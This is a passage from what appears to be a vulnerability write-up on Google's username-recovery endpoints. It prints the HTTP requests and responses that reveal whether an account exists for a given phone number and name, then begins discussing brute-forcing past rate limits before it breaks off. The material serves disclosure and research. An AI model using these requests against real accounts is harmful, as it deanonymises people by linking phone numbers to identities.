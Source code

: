 
‎

**Request**

```hljs http
POST /signin/usernamerecovery HTTP/2
Host: accounts.google.com
Cookie: __Host-GAPS=1:a4zTWE1Z3InZb82rIfoPe5aRzQNnkg:0D49ErWahX1nGW0o
Content-Length: 81
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Email=+18085921029&hl=en&gxf=AFoagUVs61GL09C_ItVbtSsQB4utNqVgKg%3A1747557783359
```

> The cookie and gxf values are from the initial page HTML

‎

**Response**

```hljs plaintext
HTTP/2 302 Found
Content-Type: text/html; charset=UTF-8
Location: https://accounts.google.com/signin/usernamerecovery/name?ess=..<SNIP>..&hl=en
```

This gave us a `ess` value tied to that phone number we can use for the next HTTP request.

‎

**Request**

```hljs plaintext
POST /signin/usernamerecovery/lookup HTTP/2
Host: accounts.google.com
Cookie: __Host-GAPS=1:a4zTWE1Z3InZb82rIfoPe5aRzQNnkg:0D49ErWahX1nGW0o
Origin: https://accounts.google.com
Content-Type: application/x-www-form-urlencoded
Priority: u=0, i

challengeId=0&challengeType=28&ess=<snip>&bgresponse=js_disabled&GivenName=john&FamilyName=smith
```

This request allows us to check if a Google account exists with that phone number as well as the display name `"John Smith"`.

‎

**Response** (no account found)

```hljs http
HTTP/2 302 Found
Content-Type: text/html; charset=UTF-8
Location: https://accounts.google.com/signin/usernamerecovery/noaccountsfound?ess=...
```

**Response** (account found)

```hljs http
HTTP/2 302 Found
Content-Type: text/html; charset=UTF-8
Location: https://accounts.google.com/signin/usernamerecovery/challenge?ess=...
```

### Can we even brute this?

My first attempts were futile. It seemed to ratelimit your IP address after a few requests and present a captcha.

‎
